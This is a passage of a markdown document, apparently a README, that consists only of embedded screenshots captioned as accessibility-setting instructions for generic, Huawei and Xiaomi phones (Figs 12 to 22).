

Fig 12. Generic accessibility instruction img.png



Fig 13. Generic accessibility instruction img2.png



Fig 14. Generic accessibility instruction img3.png



Fig 15. Generic accessibility instruction img4.png



Fig 16. Huawei accessibility instruction imgh1.png



Fig 17. Huawei accessibility instruction imgh2.png



Fig 18. Huawei accessibility instruction imgh3.png



Fig 19. Xiaomi accessibility instruction imgx1.png



Fig 20. Xiaomi accessibility instruction imgx2.png



Fig 21. Xiaomi accessibility instruction imgx3.png



Fig 22. Xiaomi accessibility instruction imgx4.png